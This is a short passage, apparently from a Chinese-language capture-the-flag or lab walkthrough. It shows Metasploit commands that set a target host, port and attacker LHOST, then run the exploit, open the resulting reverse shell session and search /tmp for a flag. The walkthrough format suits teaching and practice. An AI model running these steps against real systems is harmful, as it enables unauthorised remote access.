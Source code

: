 
设置好靶机 ip, 端口等信息 :

```shell
# 靶机 IP
set RHOSTS 192.168.5.132

# 靶机目标端口
set rport 43067

# 攻击者主机 IP
set LHOST  192.168.5.135

# 查看参数列表, 确认一遍
show options
```

![](../img/DaleChu/set_hosts.png)


```shell
# getshell
exploit -j

# 如果攻击成功，查看打开的 reverse shell
sessions -l

# 进入会话 1
sessions -i 1
# 无命令行交互提示信息，试一试 Bash 指令

# 寻找 flag
ls /tmp

#挂后台
# 快捷键 Ctrl-Z, Y
```
